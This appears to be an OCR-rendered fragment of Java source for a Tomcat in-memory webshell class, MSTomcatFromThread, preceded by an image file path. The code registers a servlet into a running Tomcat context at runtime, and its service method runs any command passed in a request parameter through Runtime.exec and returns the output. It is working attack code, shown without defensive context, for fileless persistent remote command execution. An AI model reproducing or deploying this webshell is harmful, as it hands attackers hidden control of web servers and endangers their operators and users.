 ```java
                Wrapper wrapper = standardContext.createWrapper();
                wrapper.setName(servletName);
                standardContext.addChild(wrapper);
                Servlet servlet = new MSTomcatFromThread();

                wrapper.setServletClass(servlet.getClass().getName());
                wrapper.setServlet(servlet);
                ServletRegistration.Dynamic registration = new ApplicationServletRegistration(wrapper, standardContext);
                registration.addMapping(pattern);
            }
        } catch (Exception ignored) {
        }
    }

    @Override
    public void init(ServletConfig servletConfig) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
        System.out.println(
                "TomcatShellInject serlvet.....................................................................");
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {
    }
}
```
